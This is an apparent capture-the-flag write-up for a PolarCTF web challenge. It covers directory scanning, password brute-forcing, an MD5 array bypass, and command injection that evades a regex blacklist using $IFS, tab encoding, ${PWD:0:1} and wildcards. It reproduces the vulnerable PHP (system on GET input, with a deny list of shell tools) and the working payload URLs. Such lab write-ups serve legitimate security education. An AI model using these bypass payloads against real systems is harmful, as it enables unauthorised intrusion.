




Opening the webpage, you can see it is a login page:  
  

Attempting to scan with dirsearch yields:  
```txt
Target: http://8c9e4bf8-68c2-4c3f-bf12-2b578912c971.game.polarctf.com:8090/

[15:15:01] Starting: 
[15:15:04] 403 -  319B  - /.ht_wsr.txt
[15:15:04] 403 -  319B  - /.htaccess.bak1
[15:15:04] 403 -  319B  - /.htaccess.orig
[15:15:04] 403 -  319B  - /.htaccess.sample
[15:15:04] 403 -  319B  - /.htaccess.save
[15:15:04] 403 -  319B  - /.htaccess_orig
[15:15:04] 403 -  319B  - /.htaccess_extra
[15:15:04] 403 -  319B  - /.htaccess_sc
[15:15:04] 403 -  319B  - /.htaccessBAK
[15:15:04] 403 -  319B  - /.htaccessOLD
[15:15:04] 403 -  319B  - /.htaccessOLD2
[15:15:04] 403 -  319B  - /.htm
[15:15:04] 403 -  319B  - /.html
[15:15:04] 403 -  319B  - /.htpasswd_test
[15:15:04] 403 -  319B  - /.htpasswds
[15:15:04] 403 -  319B  - /.httr-oauth
[15:15:19] 200 -  448B  - /flag.txt
[15:15:20] 200 -    3KB - /index.php
[15:15:20] 200 -    3KB - /index.php/login/
[15:15:28] 403 -  319B  - /server-status/
[15:15:28] 403 -  319B  - /server-status

Task Completed
```
Discover `/flag.txt`, access it:  
```php
<?php
$original = "flag{polar_flag_in_here}";


$ascii_codes = [117, 115, 101, 114, 110, 97, 109, 101];
$new = "";
foreach ($ascii_codes as $code) {
    $new .= chr($code);
}


function replaceString($original, $new) {
    $temp = str_replace("flag{", "the_", $original);
    $temp = str_replace("polar_flag_in_here}", $new . "_is_polar", $temp);
    return $temp;
}

$result = replaceString($orginal, $ne1w);


echo "flag{polar_flag_in_here}";
?>
```
Attempting to run it reveals a syntax error. Correct it:  
```diff
...
    return $temp;
}

-$result = replaceString($orginal, $ne1w);
+$result = replaceString($original, $new);

-echo "flag{polar_flag_in_here}";
+echo $result;
```
Running it yields: `the_username_is_polar`, hinting that the username is `polar`. Meanwhile, the challenge attachment provides a dictionary [wordlist.txt](/downloads/2025/12/1222535910.txt). Attempt brute-forcing with BurpSuite:  
  

  

Brute-forcing reveals that when the password is `6666`, it redirects to `/polar.php`:  
  

Access `/polar.php`, obtain:  
```php
<?php
error_reporting(0);
session_start();
if(isset($_GET['logout'])){
    session_destroy();
    header('Location: index.php');
    exit();
}
// Initialize session variable
if(!isset($_SESSION['collision_passed'])) {
    $_SESSION['collision_passed'] = false;
}
// The one who wants to win has no smile on their face  
if(isset($_POST['a']) && isset($_POST['b'])) {
    if($_POST['a'] != $_POST['b'] && md5($_POST['a']) === md5($_POST['b'])) {
        echo "MD5 Well done \n";
        $_SESSION['collision_passed'] = true;
    } else {
        echo "MD5 Not good enough\n";
        $_SESSION['collision_passed'] = false;
    }
}


if(isset($_GET["polar"])){
    if($_SESSION['collision_passed']) {
        if(preg_match('/et|echo|cat|tac|base|sh|tar|more|less|tail|nl|fl|vi|head|env|\||;|\^|\'|\]|"|<|>|`|\/| |\\\\|\*/i',$_GET["polar"])){
           echo "gun gun !";
        } else {
            echo "polar polar !";
            system($_GET["polar"]);
        }
    } else {
        echo "Go back, this part isn't needed\n";
    }
} else {
    show_source(__FILE__);
    echo '<br><br><a href="?logout=1" style="color: #4CAF50; text-decoration: none; font-weight: bold;">Go home</a>';
}
?>
```
First, bypass the MD5 check by passing `a[]=1&b[]=2`:  
```yaml
POST /polar.php HTTP/1.1
Host: 350eddd0-fd57-4dd0-94d3-c0c8888afd7d.game.polarctf.com:8090
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.95 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

a[]=1&b[]=2
```
The server returns:  
```yaml
Set-Cookie: PHPSESSID=443dctaboep4kh53upn3v2pqal; path=/
```
And prompts `MD5 Well done`, successfully bypassing. Since I used BurpSuite to send the request, I plan to use a regular browser next, so I write this cookie into the browser. Then directly access `/polar.php?polar=` to pass commands, no need to bypass MD5 again.  
Observing the regex filtering rules, many characters are blocked, including a series of symbols. First, try exporting environment variables with `export`, and discover a Flag: `flag{7b93dd56-4f33-4738-b916-464a984093b3}`, but submitting it shows it's incorrect. Asking customer service confirms this Flag is wrong.  
Since spaces are filtered, use `$IFS$1` or `%09` (Tab) to bypass. Also, because `/` is blocked, use `${PWD:0:1}` (extract the first character of the PWD environment variable, which is `/`) instead. Construct the request:  
```txt
http://350eddd0-fd57-4dd0-94d3-c0c8888afd7d.game.polarctf.com:8090/polar.php?polar=ls%09${PWD:0:1}
```
Obtain:  
```txt
polar polar !bin dev etc home lib media mnt opt polarflag proc root run sbin srv sys tmp usr var
```
Discover the Flag file: `/polarflag`. Since `fl` is filtered, cannot directly call the filename, so use `?????????` to match a 9-character file. Commands like `cat`, `tail`, `more`, `less` that can print content are disabled, but commands like `sort` can still be used and also print content:  
```txt
http://350eddd0-fd57-4dd0-94d3-c0c8888afd7d.game.polarctf.com:8090/polar.php?polar=sort%09${PWD:0:1}?????????
```
Obtain the Flag: `flag{polarctf1314inwebgame}`  
